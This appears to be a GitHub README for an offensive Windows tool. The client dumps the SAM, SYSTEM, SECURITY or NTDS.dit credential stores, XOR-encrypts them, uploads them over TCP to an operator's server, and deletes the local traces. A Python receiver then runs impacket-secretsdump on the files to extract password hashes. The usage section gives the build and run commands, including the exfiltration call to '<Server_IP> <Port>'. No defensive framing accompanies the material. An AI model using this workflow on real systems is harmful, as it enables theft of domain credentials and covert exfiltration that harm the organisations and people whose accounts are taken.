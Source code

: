 # Client side 

# **EsentutlDump**

EsentutlDump is a C# program that dumps the SYSTEM, SECURITY, SAM, or NTDS.dit files from the local Windows machine, encrypts them using XOR encryption and uploads the encrypted files to a remote server over TCP.

## **Features**

- Dumps SYSTEM, SECURITY, SAM, or NTDS.dit files
- Zips the dumped files
- Encrypts the zip file using XOR encryption with a specified key
- Uploads the encrypted file to a remote server via a TCP connection
- Deletes the original, zipped, and encrypted files from the local machine after uploading

## **Usage**

1. Ensure you have the .NET 6.0 SDK installed on your machine.
2. Compile the C# program using the following command in the terminal:

```
dotnet build
```

1. Run the compiled program with administrative privileges:

```
EsentutlDump.exe <Server_IP> <Port> sam

EsentutlDump.exe <Server_IP> <Port> ntds
```

**Note:** The program must be run with administrative privileges to access the SYSTEM, SAM, ntds.dit and SECURITY files.

## **Configuration**

You can change the XOR encryption key before running the program, update the following variables in the code:

- **`string key`**: Set this to the desired XOR encryption key (Default value is “RedKey”)

## **Dependencies**

This program uses the following built-in .NET libraries:

- System.Diagnostics
- System.IO.Compression
- System.Net.Sockets
- System.Security.Principal







# Server side

# **File Receiver with XOR and SecretsDump**

This Python script receives files from clients via a TCP connection, optionally decrypts them using an XOR cipher, and extracts the contents. If the **`--show`** argument is provided, it runs the **`impacket-secretsdump`** tool to display the contents of the extracted files.

## **Features**

- Receive files from clients via a TCP connection
- Optional XOR decryption of received files using a provided key
- Extraction of received zip files
- Optional execution of **`impacket-secretsdump`** on the extracted files
- Detection and handling of **`ntds.dit`** file presence in the extracted files
- Clean up and archive of extracted files

## **Dependencies**

- Python 3.9 or later
- **`impacket`** (for the **`impacket-secretsdump`** command)

You can install the **`impacket`** package using the following command:

```
pip install impacket

```

## **Usage**

To run the script, execute the following command:

```
python file_receiver.py --xor_key "RedKey" --show
```

Replace **`"RedKey"`** with the desired XOR key. If you don't provide the **`--xor_key`** argument, the script will run without decrypting the file.

### **Arguments**

- **`xor`** or **`-xor_key`**: Specifies the XOR key to be used for decrypting the received file. If not provided, no decryption will be performed.
- **`-show`**: Unzips the received file, decrypts it if an XOR key is provided, and runs the **`impacket-secretsdump`** command on the extracted files. If the **`ntds.dit`** file is present in the extracted files, the command will be adjusted accordingly.
